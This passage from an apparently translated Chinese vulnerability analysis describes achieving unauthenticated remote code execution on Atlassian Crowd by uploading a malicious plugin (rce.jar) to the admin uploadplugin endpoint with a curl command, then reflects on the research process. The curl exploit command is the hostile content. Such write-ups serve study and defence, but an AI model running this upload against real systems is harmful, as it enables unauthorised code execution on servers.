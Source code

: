 ### <a class="reference-link" name="%E6%96%B9%E6%B3%952"></a>方法2

这一次我决定将`Content-Type`改成`multipart/mixed`，尝试上传我的恶意插件。

```
curl -k -H "Content-Type: multipart/mixed" 
  --form "file_cdl=@rce.jar" http://localhost:4990/crowd/admin/uploadplugin.action
```

服务端会在返回数据中提示插件已安装成功：

[![](https://p5.ssl.qhimg.com/t01e9a430a7a153ca39.png)](https://p5.ssl.qhimg.com/t01e9a430a7a153ca39.png)

来看一下我们是否真的可以调用这个恶意插件：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01fc4772c33a8396a8.png)

这里我们已经成功针对Atlassian Crowd实现了无需身份认证的远程代码执行（RCE）。



## 0x03 总结

在对这个CVE的整个分析过程中，我所付出的努力都得到了回报，没有浪费时间精力，这正是漏洞分析过程的关键点所在。我们永远不要害怕尝试新事物，也不要害怕失败，这是整个过程最大的收获。

我对Java并不是特别了解，也没有丰富的调试经验，但这些都没有阻止我不断去尝试。尝试新事物、研究新内容、不断排查错误，这也是学习过程的重要过程。
